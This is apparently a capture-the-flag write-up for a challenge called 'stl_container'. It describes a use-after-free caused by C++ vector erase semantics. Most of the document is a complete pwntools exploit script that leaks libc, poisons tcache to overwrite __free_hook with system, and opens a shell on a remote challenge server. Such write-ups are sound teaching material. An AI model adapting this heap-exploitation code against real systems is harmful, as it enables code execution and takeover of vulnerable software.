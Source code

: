 ### stl_container
[中文](./README_zh.md) [English](./README.md)

This challenge is about a bug in c ++ vector template
When the item stored in the vector is an Object, no matter what index you want to erase will call the destructor of the last Object in the vector
This causes a UAF vulnerability, and then you can use tcache to carry out various attacks

Below is the exp
```
from pwn import *

debug=0

#context.terminal = ['tmux','-x','sh','-c']
#context.terminal = ['tmux', 'splitw', '-h' ]
context.log_level='debug'

if debug:
    p=process('./stl_container')
    #p=process('',env={'LD_PRELOAD':'./libc.so'})
    gdb.attach(p)
else:
    p=remote('134.175.239.26',8848)

def ru(x):
    return p.recvuntil(x)

def se(x):
    p.send(x)

def sl(x):
    p.sendline(x)

def add(ty, content='a'):
    sl(str(ty))
    ru('3. show')
    ru('>>')
    sl('1')
    ru('input data:')
    se(content)
    ru('>>')

def delete(ty, idx=0):
    sl(str(ty))
    ru('3. show')
    ru('>>')
    sl('2')
    if ty <= 2:
        ru('index?')
        sl(str(idx))
    ru('>>')

def show(ty, idx=0):
    sl(str(ty))
    ru('3. show')
    ru('>>')
    sl('3')
    ru('index?\n')
    sl(str(idx))
    ru('data: ')
    data = ru('\n')
    ru('>>')
    return data


ru('>>')

add(1)
add(1)
add(2)
add(2)
add(4)
add(4)
add(3)
add(3)

delete(3)
delete(3)
delete(1)
delete(1)
delete(4)
delete(4)
delete(2)
data = show(2)
libc = u64(data[:6]+'\0\0')
base = libc - 0x3ebca0
free_hook = base + 0x3ed8e8
system = base + 0x4f440

add(3, '/bin/sh\0')
delete(2)
add(4)
add(2)
add(2)
add(3, '/bin/sh\0')
delete(2)
delete(2)
add(1, p64(free_hook))
add(1, p64(system))

sl('3')
ru('show')
sl('2')

print(hex(base))
p.interactive()

```
